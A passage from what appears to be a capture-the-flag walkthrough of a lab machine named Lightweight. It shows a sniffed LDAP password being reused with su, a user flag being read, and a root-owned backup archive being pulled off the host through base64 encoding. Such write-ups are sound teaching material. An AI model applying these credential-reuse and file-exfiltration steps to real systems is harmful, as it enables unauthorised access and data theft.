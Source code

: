 ~~~
~~~

^C
8 packets captured
22 packets received by filter
6 packets dropped by kernel
{% endhighlight %}
{% highlight shell %}
ldapuser2:8bc8251332abe1d7f105d3e53ad39ac2
{% endhighlight %}

We can switch the user with su command..<br>
User.txt is in the directory of /home/ldapuser2.
{% highlight shell %}
[10.10.14.4@lightweight ~]$ su ldapuser2
Password:  # 8bc8251332abe1d7f105d3e53ad39ac2
[ldapuser2@lightweight 10.10.14.4]$
{% endhighlight %}
{% highlight shell %}
[ldapuser2@lightweight ~]$ cat user.txt
8a866d3bb7e13a57aaeb110297f48026
[ldapuser2@lightweight ~]$ 
{% endhighlight %}

### 3. Getting Root

In the directory /home/ldapuser2, we can find some interesting files
{% highlight shell %}
[ldapuser2@lightweight ~]$ ls -l
total 1868
-rw-r--r--. 1 root      root         3411 Jun 14  2018 backup.7z
-rw-rw-r--. 1 ldapuser2 ldapuser2 1520530 Jun 13  2018 OpenLDAP-Admin-Guide.pdf
-rw-rw-r--. 1 ldapuser2 ldapuser2  379983 Jun 13  2018 OpenLdap.pdf
-rw-r--r--. 1 root      root           33 Jun 15  2018 user.txt
{% endhighlight %}

Try to transfer "backup.7z" to our machine. We can use base64 decoding.<br>
At first, convert it to base64 format.
{% highlight shell %}
[ldapuser2@lightweight ~]$ base64 -w0 backup.7z 
N3q8ryccAAQmbxM1EA0AAAAAAAAjAAAAAAA...

{% endhighlight %}

Then, copy&paste and decode on our host.
{% highlight shell %}
root@kali:~# echo -n N3q8ryccAAQmbxM1EA0AAAAAAAAjAAAAAA... | base64 -d > backup.7z

root@kali:~# ls -l | grep backup
-rw-r--r-- 1 root root 3411 May 17 21:32 backup.7z

root@kali:~# file backup.7z
backup.7z: 7-zip archive data, version 0.4
{% endhighlight %}
